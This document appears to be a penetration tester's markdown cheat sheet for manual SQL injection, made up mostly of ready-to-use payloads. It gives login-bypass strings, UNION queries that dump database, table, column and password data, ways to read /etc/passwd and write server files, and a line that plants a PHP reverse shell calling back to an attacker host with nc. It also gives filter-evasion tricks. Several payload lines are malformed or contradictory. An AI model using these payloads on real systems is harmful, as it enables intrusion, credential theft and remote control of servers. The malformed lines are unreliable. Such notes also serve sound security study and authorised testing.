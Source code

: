 ```yaml
---
title: SQLi Cheat sheet for manual injection
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
---
```


# SQLi Cheat sheet for manual injection

See a more detailed [explanation about SQL injection](webexploitation/sql-injection).


### Boolean-based testing

#### Integer based parameter injection

Common in Integer based parameter injection such as:

```
URL: https://site.com/user.php?id=1
SQL query: SELECT * FROM users WHERE id= FUZZ;
```

Typical payloads for that query:

```
# Return true
AND 1
And true

# Return False
AND 0
And false

# Return 56 if vulnerable
1*56

# Return 1 if not vulnerable
1*56

```


#### String based parameter injection

```
URL: https://site.com/user.php?id=alexis
SQL query: SELECT * FROM users WHERE name= 'FUZZ';
```

Typical payloads for that query:

```
# Return true
''
""

# Return false
'
"
```


**Exploiting single quote (')**: In SQL, the single quote is used to delimit string literals. A way to exploit this is in a Login form:

```
# SQL query
SELECT * FROM users WHERE username = '<username>' AND password = '<password>'

# Payload
' OR '1'='1'; --

# The attacker's injected SQL code ' OR '1'='1'; -- causes the condition '1'='1' to evaluate to true, effectively bypassing the
authentication mechanism. Modified query would became
SELECT * FROM users WHERE username = '' OR '1'='1'; -- ' AND password = '<password>'
```


### Error-based testing

Firstly, every DBMS/RDBMS responds to incorrect/erroneous SQL queries with different error messages, so an error response can be use to fingerprint the database:

A typical error from MS-SQL will look like this:

```
Incorrect syntax near [query snippet]
```


While a typical MySQL error looks more like this:

```
You have an error in your SQL syntax. Check the manual that corresponds
to your MySQL server version for the right syntax to use near [query
snippet]
```

[Typical error based payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/error-based


### Manual UNION attack


```
# 0. Comments 
--comment       // Oracle
--comment       // Microsoft
/*comment*      // Microsoft
--comment       // PostgreSQL
/*comment*/     // PostgreSQL
#comment        // MySQL
-- comment      // MySQL [Note the space after the double dash]
/*comment*/     // MySQL

# Access (using null characters)
' OR '1'='1' %00
' OR '1'='1' %16


   
# 1. Bypass a form      
1' OR '1'='1';#
' OR '1'='1';#
1' OR '1'='1';-- - 
' OR '1'='1';-- -  


# 2. Number of columns (UNION attack)
1' OR '1'='1' order by 1;#
1' OR '1'='1' order by 2;#
1' OR '1'='1' order by 3;#
...
# Do this until you get an error message and then you will know the number of columns
# Another method to see the number of columns. 
' OR '1'='1' order by 1;-- -   

# 3. Get which column is being displayed. For instance, when we know we have 6 columns:
1' OR '1'='1' UNION SELECT all 1,2,3,4,5,6;# 

# 4. Get names of all databases 
1' OR '1'='1' UNION SELECT null,table_schema,null,null,null,null,null FROM information_schema.tables;#

# 5. Get names of all tables from the selected database
1' OR '1'='1' UNION SELECT null,table_name,null,null,null,null FROM information_schema.tables;# 


# 6. Get the name of all columns of a selected table from a selected database
1' OR '1'='1' UNION SELECT null,column_name,null,null,null,null FROM information_schema.columns WHERE table_name='users';#


# 7. Get the value of a selected column (for instance, password)
1' OR '1'='1' UNION SELECT null,passwords,null,null,null,null FROM users;#

1' OR '1'='1' UNION SELECT null,passwords,null,null,null,null FROM <databaseName.tableName>;#


```

Also, once we know which column is injectable, there are some php functions that can provide us some worthy knowing data:

```
database()
user()
version()
```


Also, interesting payloads for retrieving concatenates values in a UNION based attack:

```
## Extract database names, table names and column names

#Database names
-1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

#Tables of a database
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]

#Column names
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
```

And here an example of how to retrieve them:

```
# if injectable columns are number 2, 3 and 4 you can display some info from the system
union select 1, database(),user(),version(),5

# Extra bonus
# You can also load a file from the system with
union select 1, load_file(/etc/passwd),3,4,5

# and you can try to write to a file in the server
union select 1,'example example',3,4,5 into outfile '/var/www/path/to/file.txt'
union select 1,'example example',3,4,5 into outfile '/tmp/file.txt'

# and we can combine that with a reverse shell like
union select 1,'<?passthru("nc -e /bin/sh <attacker IP> <attacker port>") ?>', 3,4,5 into outfile '/tmp/reverse.php'

```


### Manual SQLi Blind attack

user() returns the name of the user currently using the database.
substring() returns a substring of the given argument. It takes three parameters: the input string, the position of the substring and its length.

```
' OR substring(user(), 1, 1) = 'a
' OR substring(user(), 1, 1) = 'b
1' AND SUBSTRING(user(), 1, 1 = 'r') sleep(0), sleep(10));#
```


### Extra Bonus: Bypassing quotation marks

Sometimes quotation marks get filtered in SQL queries. To bypass that when querying some tablename, maybe we can skip quotation marks by entering tablename directly in HEX values.

More bypassing tips:

```
# Using mingled upper and lowercase

# Using spaces url encoded
+

# Using comments
/**/
/**
--
; --
; /*
; //

# Example of bypassing webpages that only displays one value at a time
1'+uNioN/**/sEleCt/**/table_name,2+fROm+information_schema.tables+where+table_schema?'dvwa'+limit+1,1%23&Submit=Submit#

```

